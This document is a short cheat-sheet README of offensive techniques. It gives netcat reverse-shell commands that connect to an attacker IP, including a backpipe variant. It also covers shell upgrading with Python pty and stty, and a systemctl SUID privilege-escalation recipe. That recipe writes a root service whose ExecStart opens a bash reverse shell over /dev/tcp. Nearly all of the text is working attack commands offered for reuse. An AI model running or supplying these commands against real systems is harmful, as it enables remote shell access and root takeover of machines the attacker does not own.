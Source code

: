 # CyberCheatSheets
Reference Sheets / Notes of techniques learned

Reverse Shells:

+ <b>Netcat - Listener</b>
```
$nc -nvlp 4242
```

+ <b>Netcat - Connecting to Listener</b>
```
nc -e /bin/sh 192.168.0.1 4242
```

+ <b>Netcat - Connecting to Listener without `-e`</b>
```
$mknod /tmp/backpipe p
$/bin/sh 0</tmp/backpipe | nc <attacker_ip> 4242 1>/tmp/backpipe
```

Stabilizing/ Upgrading Shells:

+ <b>Using Ptyhon</b>
```
Upgrade:
python -c ‘import pty;pty.spawn(“/bin/bash”)’
$export TERM=xterm
Stablize:
$^Z
$stty raw -echo; fg
(ENTER)
```

Privilege Escalation:

+ <b>`/bin/systemctl` SUID</b>

*Check if `/bin/systemcl` is exploitable*
```
find / -perm -4000 2>/dev/null
```

*Write service file with printf (will be written to `/tmp/root.service`)*
```
printf '[Unit]\nDescription=root\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.0.1/4242 0>&1"\n\n[Install]\nWantedBy=multi-user.target\n' > root.service
```

*Enable and start the service*
```
systemctl enable /tmp/root.service
systemctl start root
```
